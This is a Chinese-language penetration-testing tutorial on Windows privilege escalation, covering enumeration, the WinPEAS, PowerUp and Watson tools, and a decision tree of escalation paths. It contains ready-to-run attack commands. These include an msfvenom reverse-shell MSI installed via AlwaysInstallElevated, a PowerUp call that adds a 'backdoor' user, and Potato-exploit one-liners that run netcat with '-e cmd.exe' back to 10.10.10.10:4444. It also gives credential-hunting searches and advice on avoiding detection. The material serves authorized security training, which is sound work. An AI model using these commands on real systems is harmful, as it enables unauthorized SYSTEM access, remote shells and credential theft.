

> 免责声明：本文所述技术仅供授权的安全测试与教育用途，未经授权对他人系统进行攻击属于违法行为。使用者须自行承担一切法律后果。

***

## 一、Windows 提权总览

### 1.1 提权的本质

Windows 权限提升（Privilege Escalation）是指从低权限用户（如 `IIS APPPOOL\DefaultAppPool`、域普通用户、本地标准用户）提升至 **Administrator** 或 **NT AUTHORITY\SYSTEM** 的过程。

### 1.2 方法论总纲

遵循"先广后深"原则：先用自动化工具快速扫描高价值漏洞，再针对可疑点手工深度分析。两种手段是互补关系，非先后顺序。



---

## 二、第一阶段：系统信息收集

### 2.1 基础身份枚举

拿到 Shell 后第一步是搞清楚"我是谁、我在哪、系统版本是什么"。

```cmd
whoami                                 :: 当前用户名
whoami /priv                           :: 当前用户特权（含 SeImpersonate 即 Potato）
whoami /groups                         :: 当前用户所属组
net user %username%                    :: 当前用户详细信息
net localgroup Administrators          :: 管理员组成员
```

> **关键：** `whoami /priv` 若含 `SeImpersonatePrivilege` 或 `SeAssignPrimaryTokenPrivilege`，直接 Potato 系提权至 SYSTEM，跳过后续步骤。

### 2.2 系统、补丁与网络信息

```cmd
systeminfo                             :: 完整系统信息、已安装补丁
systeminfo | findstr /i "KB"           :: 过滤补丁列表
wmic qfe get Caption,Description,HotFixID,InstalledOn  :: 补丁详细信息
ipconfig /all                          :: 网络配置、DNS
netstat -ano                           :: 当前监听端口与连接
net user                               :: 列出所有本地用户
net localgroup                         :: 列出所有本地组
net group /domain                      :: 域内组列表（域环境）
net group "Domain Admins" /domain      :: 域管理员成员
```

`systeminfo` 输出用于后续 Watson 做补丁对比，定位缺失补丁对应的 CVE。

---

## 三、自动化工具链：WinPEAS / PowerUp / Watson

自动化工具在数秒内完成大量检查项，快速定位高价值漏洞。三者定位不同，互为补充。

### 3.1 WinPEAS — 全能枚举器

WinPEAS（Privilege Escalation Awesome Scripts）是最全面的 Windows 本地枚举工具，覆盖上百个检查项。

```cmd
:: 内存执行，输出带颜色标注
WinPEASx64.exe

:: 仅显示高危项（静默模式）
WinPEASx64.exe quiet

:: 输出到文件供离线分析
WinPEASx64.exe outputfilepath=C:\Windows\Temp\peas.txt
```

**WinPEAS 核心检查类别：**

| 类别 | 检查内容 | 危险标志 |
|------|---------|---------|
| **系统信息** | OS 版本、补丁级别、架构 | 老旧/未打补丁 |
| **用户权限** | SeImpersonate、SeDebug 等 | Potato 系列可利用 |
| **服务** | 未引号路径、可写二进制、注册表权限 | 服务劫持路径 |
| **计划任务** | 可写任务脚本/二进制 | 计划任务劫持 |
| **注册表** | AlwaysInstallElevated | 直接 MSI → SYSTEM |
| **凭据** | 存储密码、AutoLogon、VNC 密码 | 凭据窃取 |
| **UAC** | UAC 级别 | UAC 绕过评估 |

### 3.2 PowerUp — PowerShell 提权扫描

PowerUp 属 PowerSploit 工具集，专注提权配置缺陷的检测与一键利用。

```powershell
Import-Module .\PowerUp.ps1
Invoke-AllChecks                  :: 执行所有检查
Get-UnquotedService               :: 未引号服务路径
Get-ModifiableServiceFile         :: 可修改服务二进制
Get-RegistryAlwaysInstallElevated :: 检查 AlwaysInstallElevated

:: 利用示例：向可修改服务注入后门用户
Write-ServiceBinary -Name 'VulnerableService' -UserName 'backdoor' -Password 'Passw0rd!'
Restart-Service -Name 'VulnerableService'
```

### 3.3 Watson — 内核漏洞扫描

Watson 通过对比目标系统的补丁与内置漏洞数据库，精确识别缺失的补丁及其对应 CVE，无需联网。

```cmd
Watson.exe

:: 输出示例：
:: [*] OS Build: 10.0.14393 (Windows Server 2016)
:: [+] CVE-2019-0836 : VULNERABLE
:: [+] CVE-2019-1064 : VULNERABLE
:: [+] CVE-2020-0668 : VULNERABLE
```

**解读原则：** 优先选择标注 `VULNERABLE` 且时间较新的 CVE；注意架构（x86/x64）匹配；先在本地相同构建版本验证 Exploit，避免直接上线导致崩溃。

---

## 四、手工枚举深度分析

自动化工具可能因 PowerShell 被禁、WMI 不可用、AMSI 拦截而无法运行，此时需退回手工命令。

### 4.1 服务配置缺陷（最常见提权路径）

**未引号服务路径：** 路径含空格且未用引号时，Windows 按序尝试执行 `C:\Program.exe` → `C:\Program Files\Vulnerable.exe` → 最终到达正确路径。攻击者在可写父目录放置恶意 EXE，服务重启即以 SYSTEM 执行。

```cmd
:: 检测未引号服务路径
wmic service get Name,PathName | findstr /i /v "C:\Windows" | findstr /i /v """

:: 检查服务二进制权限（W=写入, F=完全控制 → 可利用）
icacls "C:\Program Files\Vulnerable\service.exe"
```

**可写服务二进制：** `icacls` 显示 `BUILTIN\Users:(F)` 则直接替换文件并重启服务即可。

### 4.2 计划任务缺陷

```cmd
schtasks /query /fo LIST /v              :: 列出所有计划任务详情
```

**利用条件：** 任务以 SYSTEM 运行且触发脚本/二进制可被当前用户写入，替换后等待触发。

### 4.3 注册表 AlwaysInstallElevated

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

:: 两者均为 0x1 时：
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f msi -o exploit.msi
msiexec /quiet /qn /i exploit.msi         :: 以 SYSTEM 权限安装并执行
```

### 4.4 存储凭据与 UAC 绕过

```cmd
cmdkey /list                              :: Windows 凭据管理器
findstr /si password *.xml *.ini *.txt *.config 2>nul  :: 配置文件搜索
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

当前用户在 **Administrators 组**但受 UAC 限制时，可通过 `fodhelper.exe` DLL 劫持、`eventvwr.exe` 注册表劫持或 COM 对象劫持绕过 UAC 获得完整管理员权限。

---

## 五、常见提权路径决策树

```mermaid
flowchart TD
    A["whoami /priv"] --> B{"SeImpersonatePrivilege?"}
    B -->|"Yes"| P1[" Potato 家族 RoguePotato / JuicyPotato / PrintSpoofer"]
    P1 --> S1["NT AUTHORITY\SYSTEM"]
    B -->|"No"| C{"系统老旧 / 补丁少?"}
    C -->|"Yes"| D["Watson 扫描 → 内核 Exploit"]
    D --> S2["NT AUTHORITY\SYSTEM"]
    C -->|"No"| E{"AlwaysInstallElevated = 1?"}
    E -->|"Yes"| P3["msfvenom 生成 MSI → msiexec 安装"]
    P3 --> S3["NT AUTHORITY\SYSTEM"]
    E -->|"No"| F{"未引号服务路径?"}
    F -->|"Yes"| P4["可写路径放置恶意 EXE → 重启服务"]
    P4 --> S4["NT AUTHORITY\SYSTEM"]
    F -->|"No"| G{"可写服务二进制?"}
    G -->|"Yes"| P5["替换服务二进制 → 重启服务"]
    P5 --> S5["NT AUTHORITY\SYSTEM"]
    G -->|"No"| H{"在 Administrators 组?"}
    H -->|"Yes"| P6["UAC 绕过 (fodhelper / eventvwr)"]
    P6 --> AD["管理员权限"]
    H -->|"No"| I{"存储凭据可用?"}
    I -->|"Yes"| P7["RunAs 凭据切换"]
    P7 --> EL["高权限账户"]
    I -->|"No"| J{"计划任务可劫持?"}
    J -->|"Yes"| P8["劫持任务脚本 / 二进制"]
    P8 --> S6["NT AUTHORITY\SYSTEM"]
    J -->|"No"| K["扩大枚举：DLL 劫持 / 驱动漏洞 / 第三方软件"]
```



---

## 六、自动化 vs 手工：协同策略

| 维度 | 自动化（WinPEAS / PowerUp / Watson） | 手工枚举 |
|------|--------------------------------------|---------|
| **速度** | 秒级完成数百项检查 | 逐项排查，耗时较长 |
| **覆盖面** | 广，覆盖主流已知缺陷 | 可深入环境特定配置 |
| **局限性** | 可能被 AV/EDR 拦截；输出噪音多 | 依赖经验，易遗漏 |
| **适用场景** | 提权初筛，快速定位突破口 | 自动化被拦截 / 需深入分析 |
| **噪声** | Watson/PowerUp 可能触发告警 | 单条命令噪声较小 |

**推荐实战流程：**

1. 获得 Shell 后立即 `whoami /priv`——若存在 `SeImpersonatePrivilege` 直接用 Potato 提权（最快路径）
2. 若步骤 1 无效，上传 WinPEAS 静默执行，离线分析输出
3. 若 WinPEAS 被拦截，回退手工 `systeminfo` → Watson 补丁分析
4. 针对 WinPEAS 标注的高危项手工验证
5. 若不成功，扩大范围：网络共享、DLL 劫持、第三方驱动、组策略偏好

---

## 七、完整 Checklist

按优先级排列：

### 基础信息
- [ ] `whoami` / `whoami /priv` / `whoami /groups`
- [ ] `systeminfo` / `wmic qfe` / `net user %username%`
- [ ] `net localgroup Administrators` / `ipconfig /all` / `netstat -ano`

### 用户与组
- [ ] `net user` / `net localgroup` / `net group /domain`（域环境）
- [ ] `net accounts`、Backup Operators 等特权组归属检查

### 服务与计划任务
- [ ] `wmic service get Name,PathName,StartName` → 未引号路径
- [ ] `icacls` 检查服务二进制可写性 → `schtasks /query /fo LIST /v`

### 注册表与凭据
- [ ] `AlwaysInstallElevated` (HKLM + HKCU) / AutoLogon / UAC 级别
- [ ] `cmdkey /list` / `findstr /si password *.xml *.ini *.txt 2>nul`
- [ ] PowerShell 历史记录 (`ConsoleHost_history.txt`)

### 自动化工具
- [ ] WinPEAS 全量 / PowerUp `Invoke-AllChecks` / Watson 内核漏洞扫描

### 进阶检查
- [ ] DLL 劫持 / 内核驱动漏洞 / 第三方软件漏洞
- [ ] 组策略偏好密码 (Groups.xml / Services.xml) / WSL / Docker 逃逸

---

## 八、代码示例汇总

### 8.1 一键枚举批处理

```batch
@echo off
echo [+] whoami && whoami && echo [+] whoami /priv && whoami /priv
echo [+] SystemInfo && systeminfo | findstr /i "OS Name Version Hotfix"
echo [+] Users && net user && echo [+] Admins && net localgroup Administrators
echo [+] Network && netstat -ano | findstr /i "LISTENING"
echo [+] AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 2>nul
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 2>nul
echo [+] Unquoted Services && wmic service get Name,PathName | findstr /i /v "C:\Windows" | findstr /i /v """
echo [*] Done.
```

### 8.2 Potato 系列利用

```cmd
:: RoguePotato (Win10 / Server 2016+)
RoguePotato.exe -r 10.10.10.10 -e "C:\Windows\Temp\nc.exe 10.10.10.10 4444 -e cmd.exe" -l 9999

:: JuicyPotato (较老版本，CLSID 取决于系统版本)
JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c C:\Windows\Temp\nc.exe 10.10.10.10 4444 -e cmd.exe" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}

:: PrintSpoofer (Win10 / Server 2019，利用打印机命名管道)
PrintSpoofer64.exe -i -c "C:\Windows\Temp\nc.exe 10.10.10.10 4444 -e cmd.exe"
```

### 8.3 Metasploit 内核 Exploit 利用

```bash
msf6 > search cve:2019-0841
msf6 > use exploit/windows/local/cve_2019_0841_bypass
msf6 > set SESSION 1
msf6 > set LHOST 10.10.10.10
msf6 > set LPORT 4444
msf6 > run
```

---

## 九、总结

Windows 提权是"系统认知 + 工具运用 + 经验判断"的综合能力。核心原则：

1. **先快后慢**：`whoami /priv` → Potato 是最短提权路径，不要上来就全量扫描
2. **工具互补**：WinPEAS 做广度覆盖，Watson 做内核漏洞精准匹配，PowerUp 做服务缺陷深度检测
3. **手工兜底**：AV/EDR 环境下手写命令逐项排查，理解原理比背命令更重要
4. **低调操作**：优先内置命令，内存加载优于磁盘写入，避免触发告警
5. **持续更新**：关注每月 Patch Tuesday 后的新公开漏洞，保持工具与知识库为最新

> **再次声明：** 本文技术仅供合法授权的安全测试和教育培训使用。任何未经授权对他人系统实施攻击的行为均属违法，作者不承担由此产生的任何法律责任。请将能力用于建设而非破坏。

***
